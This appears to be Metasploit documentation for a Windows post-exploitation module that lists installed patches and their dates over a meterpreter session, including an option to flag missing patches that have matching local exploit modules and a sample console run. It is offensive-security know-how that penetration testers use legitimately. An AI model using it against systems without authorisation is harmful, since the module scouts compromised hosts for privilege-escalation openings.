 
## Vulnerable Application

  This module will attempt to enumerate which patches are applied to a
  Windows system, as well as on which date they were applied, based on
  the result of the WMI query `SELECT HotFixID, InstalledOn FROM Win32_QuickFixEngineering`.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/enum_patches```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **KB**

  A comma separated list of KB patches to search for. Default is: `KB2871997, KB2928120`

  **MSFLOCALS**

  Search for missing patches for which there is a MSF local module. Default is `true`.

  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 10 x64 v1909

  ```
  msf6 exploit(multi/handler) > use post/windows/gather/enum_patches
  msf6 post(windows/gather/enum_patches) > show options

  Module options (post/windows/gather/enum_patches):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    SESSION                   yes       The session to run this module on.

  msf6 post(windows/gather/enum_patches) > set SESSION 1
  SESSION => 1
  msf6 post(windows/gather/enum_patches) > run

  [*] Patch list saved to /home/gwillcox/.msf4/loot/20200902125729_default_172.29.215.21_enum_patches_495652.txt
  [+] KB4569751 installed on 8/17/2020
  [+] KB4497165 installed on 8/17/2020
  [+] KB4517245 installed on 4/10/2020
  [+] KB4537759 installed on 4/10/2020
  [+] KB4552152 installed on 4/10/2020
  [+] KB4561600 installed on 8/17/2020
  [+] KB4569073 installed on 8/17/2020
  [+] KB4565351 installed on 8/17/2020
  [*] Post module execution completed
  msf6 post(windows/gather/enum_patches) >
  ```
